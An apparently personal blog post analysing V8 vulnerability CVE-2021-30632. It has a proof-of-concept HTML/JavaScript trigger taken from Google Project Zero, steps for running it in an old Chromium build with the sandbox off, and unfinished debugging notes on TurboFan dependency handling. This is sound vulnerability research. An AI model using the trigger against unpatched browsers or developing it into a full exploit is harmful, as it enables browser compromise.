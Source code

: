 
---
layout: post
title: "CVE-2021-30632 Analysis"
---

打算练习一下英文写作，所以这篇尝试用英文写。

Analysis V8 vulnerability CVE-2021-30632.

## Enviroment

### Get Vulnerable Exe

According to [google P0 0day-RCAs](https://googleprojectzero.github.io/0days-in-the-wild//0day-RCAs/2021/CVE-2021-30632.html), this vulnerability affects version pre 93.0.4577.82. With the help of https://vikyd.github.io/download-chromium-history-version/#/, I got the download url of chromium 93.0.4573.1 Win64 with pdb file, https://commondatastorage.googleapis.com/chromium-browser-snapshots/index.html?prefix=Win_x64/900323/. I also built a debug version of chromium for a better debugging experience. 

## Prepare POC

Steal this POC code from Google P0 0day RCAs page.

```html
<html>
	<body>
		<script>
			function store(y) {
  x = y;
}

function load() {
  return x.b;
}

var x = {a : 1};
var x1 = {a : 2};
var x2 = {a : 3};
var x3 = {a : 4};

store(x1);
%PrepareFunctionForOptimization(store);
store(x2);

x1.b = 1;

%OptimizeFunctionOnNextCall(store);
store(x2);

x.b = 1;

%PrepareFunctionForOptimization(load);
load();

%OptimizeFunctionOnNextCall(load);
load();

store(x3);

%DebugPrint(load());
		</script>
	</body>
</html>
```
use `python -m http.server 9999`  create a site at port 9999.

## Triger Crash

Use `./chrome.exe --no-sandbox --enable-logging=stderr --js-flags="--allow-natives-syntax --trace-turbo"` start chrome, navigate to http://localhost:9999/.


## Analysis

Debug the crash with Visual Studio and the Microsoft Child Process Debugging Power Tool plugin. Backtace shows crash happens when %DebugPrint try to access a invalid memory address.

IR 

JSLoadGlobal

![[Pasted image 20230222011313.png]]

![[Pasted image 20230222011158.png]]

When debugging the `JSNativeContextSpecialization::ReduceJSLoadGlobal` function.  `dependencies()->DependOnGlobalProperty` and `dependencies()->DependOnStableMap` draw my attention. 

I guess the dependencies processing has a bug, so that modify global variable x do not invalidate the dependent code, then  `%DebugPrint(load())` end up reading invalid memory address.

so I search the keyworld dependency and find function named `PipelineImpl.CommitDependencies`, which is response to add code object to it's corresponde object's map.

If my guess is rigth, `store(x3);` should be wrong, so I set debug point in function ` StoreIC::Store`, but the debug pointer never reached. After that I realize function  `store` is JIT compiled, 

## Reference

- https://googleprojectzero.github.io/0days-in-the-wild//0day-RCAs/2021/CVE-2021-30632.html


